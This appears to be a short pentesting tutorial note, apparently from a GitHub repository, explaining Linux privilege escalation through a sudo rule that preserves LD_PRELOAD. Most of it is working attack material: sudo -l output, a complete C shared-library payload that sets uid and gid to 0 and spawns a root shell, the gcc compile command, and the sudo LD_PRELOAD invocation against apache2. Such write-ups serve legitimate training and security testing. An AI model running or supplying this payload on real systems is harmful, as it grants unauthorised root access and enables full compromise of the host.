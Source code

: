 # LD_PRELOAD Privilege Escalation
Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with sudo privileges.

```bash
sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```
We can see in last line `env_keep+=LD_PREALOAD` we can abuse it to get root using following maliciuos program:
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
To compile:
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
Finally, to escalate we have to use full path of binary which is allowed to run as root without a password we saw it by 
<br>`sudo -l` command:
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
